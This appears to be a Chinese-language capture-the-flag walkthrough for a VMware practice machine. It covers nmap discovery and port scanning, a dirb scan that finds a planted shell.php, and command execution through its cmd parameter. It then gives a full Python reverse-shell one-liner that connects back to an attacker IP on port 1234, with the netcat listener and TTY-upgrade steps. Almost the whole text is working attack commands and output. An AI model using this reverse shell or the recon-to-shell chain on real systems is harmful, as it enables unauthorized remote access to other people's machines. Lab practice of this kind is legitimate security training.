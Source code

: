 	VMware双击打开，默认nat模式即可！

--------------------------------------------
--------------------------------------------
1、nmap 192.168.253.0/24 -sP
MAC Address: 00:50:56:E1:B2:64 (VMware)
Nmap scan report for localhost (192.168.253.193)

--------------------------------------------
--------------------------------------------
2、nmap 192.168.253.193 -p- -A

80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)

--------------------------------------------
--------------------------------------------
3、web信息收集
dirb http://192.168.253.193/ 
这样扫描扫不到 。php

dirb http://192.168.253.193/ -X .php
+ http://192.168.253.193/shell.php (CODE:200|SIZE:29) 

发现shell.php版本！
https 
中间件
框架
数据库


--------------------------------------------
--------------------------------------------
4、webshell

访问：http://192.168.253.193/shell.php
/*pass cmd as get parameter*/
传递cmd作为get参数！


http://192.168.253.193/shell.php?cmd=id
uid=1005(user6) gid=1005(user6) groups=1005(user6) /*pass cmd as get parameter*/

可以执行命令，这是留着的一句话后门！

http://192.168.253.193/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.139.131",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

nc -vlp 1234
ctrl + z
stty raw -echo
fg
